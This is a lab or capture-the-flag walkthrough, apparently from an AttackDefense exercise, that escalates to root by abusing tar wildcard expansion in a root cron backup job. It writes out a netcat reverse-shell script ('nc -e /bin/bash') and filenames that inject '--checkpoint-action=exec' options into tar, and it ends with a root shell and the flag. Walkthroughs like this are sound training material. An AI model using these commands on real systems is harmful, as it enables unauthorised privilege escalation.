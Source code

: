 # Cron job

https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

Check if theres any cron job

```
student@attackdefense:~$ crontab -l
no crontab for student
```

A zip file is being backed up using cron job. Extract the file and search the file name

```
student@attackdefense:~$ ls -l /tmp
total 4
-rw-r--r-- 1 root root 181 Jun 28 09:26 monitor.tar.gz
student@attackdefense:~$ tar -zxvf /tmp/monitor.tar.gz
1
2
3
4
5
student@attackdefense:~$ ls -l
total 20
-rw-r--r-- 1 student student 29 Sep 23  2018 1
-rw-r--r-- 1 student student 29 Sep 23  2018 2
-rw-r--r-- 1 student student 29 Sep 23  2018 3
-rw-r--r-- 1 student student 29 Sep 23  2018 4
-rw-r--r-- 1 student student 29 Sep 23  2018 5
student@attackdefense:~$ find / -name 3 2>/dev/null
/proc/irq/3
/proc/sys/net/netfilter/nf_log/3
/proc/13/task/13/fd/3
/proc/13/task/13/fdinfo/3
/proc/13/task/19/fd/3
/proc/13/task/19/fdinfo/3
/proc/13/fd/3
/proc/13/fdinfo/3
/proc/20/task/20/fd/3
/proc/20/task/20/fdinfo/3
/proc/20/fd/3
/proc/20/fdinfo/3
/proc/38/task/38/fd/3
/proc/38/task/38/fdinfo/3
/proc/38/fd/3
/proc/38/fdinfo/3
/sys/kernel/irq/3
/home/student/3
/var/log/monitor/3
```

Found the location of original file in `/var/log/monitor`

```
student@attackdefense:~$ cd /var/log/monitor
student@attackdefense:/var/log/monitor$ ls -l
total 20
-rw-r--r-- 1 root root 29 Sep 23  2018 1
-rw-r--r-- 1 root root 29 Sep 23  2018 2
-rw-r--r-- 1 root root 29 Sep 23  2018 3
-rw-r--r-- 1 root root 29 Sep 23  2018 4
-rw-r--r-- 1 root root 29 Sep 23  2018 5
```

Add file 6 and see if cron job compressed them into a folder

```
student@attackdefense:/var/log/monitor$ touch 6
```

The copressed file contains our added file
```
student@attackdefense:~$ tar -zxvf /tmp/monitor.tar.gz
1
2
3
4
5
6
```

Create file `shell.sh` that we want cron job to run. `root` runs this so it will run as root

```
student@attackdefense:/var/log/monitor$ printf '#! /bin/bash\nnc -e /bin/bash 127.0.0.1 1234' > shell.sh
student@attackdefense:/var/log/monitor$ cat shell.sh
#! /bin/bash
nc -e /bin/bash 127.0.0.1 1234student@attackdefense:/var/log/monitor$
```

Create special files which will act as arguments to the caller process and execute our `shell.sh`
```
student@attackdefense:/var/log/monitor$ touch -- '--checkpoint-action=exec=sh shell.sh'
student@attackdefense:/var/log/monitor$ touch -- '--checkpoint=1'
```

Start a listener
```
student@attackdefense:/var/log/monitor$ nc -lvnp 1234
listening on [any] 1234 ...
```

Then we wait for shell
```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48868
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls -l
total 4
-rw-r--r-- 1 root root 33 Nov  2  2018 flag
cat flag
920cf978831b228cf7d13c8368b6c1f2
```